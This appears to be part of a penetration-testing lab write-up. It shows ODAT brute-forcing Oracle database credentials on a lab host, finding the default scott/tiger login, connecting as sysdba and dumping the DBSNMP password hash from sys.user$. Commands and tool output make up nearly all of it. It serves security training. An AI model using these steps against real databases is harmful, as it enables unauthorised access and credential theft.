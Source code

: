 ```zsh
❯ sudo odat passwordguesser -s 10.129.205.19 -d XE -v
[sudo] password for kali: 
11:18:47 INFO -: CX_Oracle is well configured according to parameters

[1] (10.129.205.19:1521): Searching valid accounts on the 10.129.205.19 server, port 1521
11:18:47 INFO -: Loading accounts stored in the uniq file 'accounts/accounts.txt'
11:18:47 INFO -: Separator between login and password fixed on '/'
11:18:47 INFO -: 550 paired login/password loaded
11:18:47 INFO -: Searching valid accounts on 10.129.205.19:1521/sid:XE
The login abm has already been tested at least once. What do you want to do:                                                                | ETA:  --:--:-- 
- stop (s/S)
- continue and ask every time (a/A)
- skip and continue to ask (p/P)
- continue without to ask (c/C)
c
[!] Notice: 'ctxsys' account is locked, so skipping this username for password                                                              | ETA:  00:23:01 
[!] Notice: 'dbsnmp' account is locked, so skipping this username for password                                                              | ETA:  00:22:19 
[!] Notice: 'dip' account is locked, so skipping this username for password                                                                 | ETA:  00:21:37 
[!] Notice: 'hr' account is locked, so skipping this username for password                                                                  | ETA:  00:18:24 
[!] Notice: 'mdsys' account is locked, so skipping this username for password                                                               | ETA:  00:14:19 
[!] Notice: 'oracle_ocm' account is locked, so skipping this username for password####                                                      | ETA:  00:11:11 
[!] Notice: 'outln' account is locked, so skipping this username for password##############                                                 | ETA:  00:10:01 
11:41:05 INFO -: Impossible to execute the query 'SELECT platform_name FROM v$database': 'ORA-00942: table or view does not exist'          | ETA:  00:05:32 
11:41:05 INFO -: OS version from getDatabasePlatfromName(): IBMPC/WIN_NT64-9.1.0
11:41:05 INFO -: Valid credential: scott/tiger (scott/tiger@(DESCRIPTION=(ADDRESS_LIST=(ADDRESS=(PROTOCOL=TCP)(Host=10.129.205.19)(Port=1521)))(CONNECT_DATA=(SID=XE))))  
[+] Valid credentials found: scott/tiger. Continue...           
[!] Notice: 'xdb' account is locked, so skipping this username for password###########################################################      | ETA:  00:01:06 100% |######################################################################################################################################| Time: 00:27:36 
[+] Accounts found on 10.129.205.19:1521/sid:XE: 
scott/tiger                                                                           

```

```zsh
❯ sqlplus scott/tiger@10.129.205.19/XE as sysdba
```
```sql
SQL> select name, password from sys.user$ where name = 'DBSNMP';

NAME                           PASSWORD
------------------------------ ------------------------------
DBSNMP                         E066D214D5421CCC
```
